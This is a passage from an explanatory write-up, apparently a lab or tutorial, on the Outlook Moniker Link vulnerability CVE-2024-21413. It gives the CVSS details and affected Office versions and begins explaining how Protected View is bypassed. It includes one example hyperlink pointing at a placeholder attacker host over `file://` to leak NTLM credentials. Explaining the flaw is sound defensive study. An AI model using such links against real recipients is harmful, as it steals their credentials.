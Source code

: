 ﻿# INTRODUCTION

On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li of Check Point Research is credited with [discovering the vulnerability](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/).

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked.

Details relating to the scoring of the vulnerability have been provided in the table below:

| | |
|---|---|
|**CVSS**|**Description**|
|Publish date|February 13th, 2024|
|MS article|[https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413)|
|Impact|Remote Code Execution & Credential Leak|
|Severity|Critical|
|Attack Complexity|Low|
|Scoring|9.8|

The vulnerability is known to affect the following Office releases:

| | |
| --------------------------------- | ------------------------------------------ |
| **Release** | **Version** |
| Microsoft Office LTSC 2021 | affected from 19.0.0 |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1 |
| Microsoft Office 2019 | affected from 16.0.1 |
| Microsoft Office 2016 | affected from 16.0.0 before 16.0.5435.1001 |

# EXPLANATION

Outlook can render emails as HTML. You may notice this being used by your favorite newsletters. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers)Normally, Outlook will prompt a security warning when external applications are triggered.

![Outlooks Protected View is triggered when launching an external application](https://research.checkpoint.com/wp-content/uploads/2024/02/HBNP4GTD5Y-image1.png) 

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organization). By using the`file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP/test>Click me</a>`). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.
